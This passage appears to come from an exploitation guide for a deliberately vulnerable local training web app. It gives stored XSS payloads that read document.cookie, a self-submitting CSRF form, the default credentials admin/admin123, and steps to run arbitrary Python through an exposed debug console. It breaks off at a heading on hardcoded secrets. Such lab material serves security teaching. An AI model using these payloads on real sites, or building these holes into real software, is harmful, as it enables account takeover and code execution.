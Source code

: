 ### Stored XSS via Username

```javascript
# Register with XSS payload as username
Username: <script>alert(document.cookie)</script>
Password: anything

# More advanced payload
Username: <img src=x onerror="alert(document.cookie)">
```

## 3. CSRF (Cross-Site Request Forgery)

The application has no CSRF protection. Create this HTML file and host it:

```html
<!-- save as csrf.html -->
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://localhost:5001/login" method="POST">
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="password" value="admin123" />
    </form>
  </body>
</html>
```

## 4. Default Credentials

```
Username: admin
Password: admin123
```

## 5. Information Disclosure

### Debug Mode

1. Cause an error by visiting: `/nonexistent`
2. Get detailed error traces and application info
3. Access the interactive debugger with the PIN shown in console

### Source Code Disclosure

1. Visit: `http://localhost:5001/console`
2. Use the debug console to explore the filesystem
3. Execute arbitrary Python code

## 6. Security Misconfigurations

### Hardcoded Secrets
